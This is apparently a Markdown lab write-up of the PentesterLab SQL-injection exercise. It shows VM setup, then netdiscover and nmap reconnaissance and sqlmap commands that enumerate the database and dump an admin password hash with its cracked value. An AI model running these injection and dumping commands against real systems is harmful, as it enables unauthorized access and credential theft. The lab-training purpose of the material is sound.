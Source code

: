 # PentesterLab

## Setup

- Target
  - Hardware
    - 1 cpu 1 core
    - 1 eth0 (nat)
    - 512 MB RAM
    - ISO (sqli_to_shell)
- Kali
  - Hardware
    - 1 cpu 2 cores
    - 1 eth0 (nat)
    - 1024 MB RAM
    - HDD 20 GB
  - Setup
    - username : mon
    - password : Pa$$w0rd
  - Post installation setup
    - `sudo nano /etc/network/interfaces` and replace ens33 with eth0
    - `sudo apt update && sudo apt upgrade`
    - `sudo systemctl start ssh`

## Footprinting and fingerprinting

### Netdiscover

```bash
$ sudo apt install netdiscover
$ sudo net discover

------------------------------

Currently scanning: 172.16.215.0/16   |   Screen View: Unique Hosts

 29 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1740
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.44.1    00:50:56:c0:00:08     26    1560  VMware, Inc.
 192.168.44.2    00:50:56:fc:6c:b0      1      60  VMware, Inc.
 192.168.44.130  00:0c:29:f4:6d:14      1      60  VMware, Inc.
 192.168.44.254  00:50:56:e7:2c:fd      1      60  VMware, Inc.

```

### Nmap

```bash
$ sudo apt install nmap
$ sudo nmap -sV -O 192.168.44.130

------------------------------

Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 13:44 BST
Nmap scan report for 192.168.44.130
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.16 ((Debian))
MAC Address: 00:0C:29:F4:6D:14 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.32 - 2.6.35
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

Port 80 open => web server

server root in /var/www

- .htaccess [403]
- .htpasswd [403]
- server-status
- cat.php (SQL injection GET request id parameter, uses Mysql)
- css/
- admin/
  - uploads/
- images/

### SQLmap

```bash
sudo apt install sqlmap

sqlmap --url 'http://192.168.44.130/cat.php?id=1' --dbs

[15:38:28] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 6 (squeeze)
web application technology: PHP 5.3.3, Apache 2.2.16
back-end DBMS: MySQL >= 5.0
[15:38:28] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] photoblog


sqlmap --url 'http://192.168.44.130/cat.php?id=1' --tables -D photoblog

[15:42:40] [INFO] fetching tables for database: 'photoblog'
Database: photoblog
[3 tables]
+------------+
| categories |
| pictures   |
| users      |
+------------+

sqlmap --url='http://192.168.44.130/cat.php?id=1' --columns -T users -D photoblog

[15:43:37] [INFO] fetching columns for table 'users' in database 'photoblog'
Database: photoblog
Table: users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | mediumint(9) |
| login    | varchar(50)  |
| password | varchar(50)  |
+----------+--------------+

sqlmap --url='http://192.168.44.130/cat.php?id=1' --dump -T users -D photoblog

Database: photoblog
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+

```